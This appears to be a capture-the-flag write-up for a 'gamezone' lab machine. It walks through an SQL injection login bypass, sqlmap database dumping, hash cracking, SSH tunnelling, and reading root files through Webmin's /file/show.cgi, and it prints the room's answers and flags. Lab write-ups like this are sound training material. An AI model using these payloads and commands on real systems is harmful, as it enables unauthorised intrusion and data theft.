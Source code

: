 # gamezone

# TASK 1 - Deploy the vulnerable machine

What is the name of the large cartoon avatar holding a sniper on the forum?
R: Agent 47

nmap -sC -sV 10.10.138.171

![image](https://github.com/yanfernandess/gamezone/assets/100174458/ff14a15b-5083-4c7b-8477-422c389aa6c0)

# TASK 2 -  Obtain access via SQLi

Log in: ' or 1=1 -- -
Password:

![image](https://github.com/yanfernandess/gamezone/assets/100174458/9b1ab06e-9f2f-4498-b9aa-2e0fca682d61)

When you've logged in, what page do you get redirected to?
R: portal.php

# TASK 3 - Using SQLMap

Salvar o código fonte que aparece no BURP SUITE da página logo após inserir alguma informação no input em um arquivo txt, vamos usar isso logo em seguida.

sqlmap -r request.txt --current-db

![image](https://github.com/yanfernandess/gamezone/assets/100174458/86b0560e-c2a6-4d29-b7dc-dd067d5c1232)

Descobrimos que temos um banco de dados chamado 'db'

sqlmap -r request.txt -D db --tables

![image](https://github.com/yanfernandess/gamezone/assets/100174458/e0590bd6-1677-4274-a095-f79b125ed9f7)

Temos duas tabelas dentro do banco de dados, vamos explorar elas.

sqlmap -r request.txt -D db users --dump

![image](https://github.com/yanfernandess/gamezone/assets/100174458/10fe000e-346e-499d-96f2-3b2ab7c228ec)

In the users table, what is the hashed password?
R: ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

What was the username associated with the hashed password?
R: agent47

What was the other table name?
R: post

# TASK 4 - Cracking a password with JohnTheRipper

Ele esta pedindo para descriptografar com o JohnTheRipper mas utilizei uma ferramenta online para fazer isso, segue o link abaixo:

https://www.dcode.fr/

![image](https://github.com/yanfernandess/gamezone/assets/100174458/27c46287-82b9-4cde-96aa-4c7ec7ee35f5)

Conseguimos acesso SSH com o login e a senha que acabamos de descriptografar.

![image](https://github.com/yanfernandess/gamezone/assets/100174458/09cf8537-da10-4d64-9c79-20b52316b187)

E conseguimos a primeira flag.

What is the de-hashed password?
R: videogamer124


Now you have a password and username. Try SSH'ing onto the machine.

What is the user flag?
R: 649ac17b1480ac13ef1e4fa579dac95c

# TASK 5 - Exposing services with reverse SSH tunnels

ssh -L 10000:localhost:10000 agent47@10.10.138.171

![image](https://github.com/yanfernandess/gamezone/assets/100174458/338a6a7d-f737-4dfe-8f56-bcf1331c7e52)

Fiz o Login com a credencial descoberta e descobri que se trata de um webmin da versão 1.580.

![image](https://github.com/yanfernandess/gamezone/assets/100174458/45a7648c-0ecd-4bcb-bdf3-6277cf8ea382)

How many TCP sockets are running?
R: 5

What is the name of the exposed CMS?
R: Webmin

What is the CMS version?
R: 1.580

# TASK 6 - Privilege Escalation with Metasploit

Se você estiver seguindo o guia da sala, neste ponto você poderá iniciar o Meterpreter e usar um módulo dentro da estrutura para obter um shell root. No entanto, se você ler como o exploit funciona, é muito simples apenas ler os arquivos no console do webmin. Para testar isso, vamos dar uma olhada no arquivo passwd:

![image](https://github.com/yanfernandess/gamezone/assets/100174458/91e33563-b26c-474a-a2d9-da1811989c49)

Como você pode ver, tudo o que precisei fazer foi adicionar /file/show.cgi e, em seguida, o caminho e o nome do arquivo que desejo ver.

Usando esta técnica simples, podemos pegar o sinalizador root:

![image](https://github.com/yanfernandess/gamezone/assets/100174458/2af2fb5d-4620-476c-b2f7-84233d9ea3ea)

What is the root flag?
R: a4b945830144bdd71908d12d902adeee
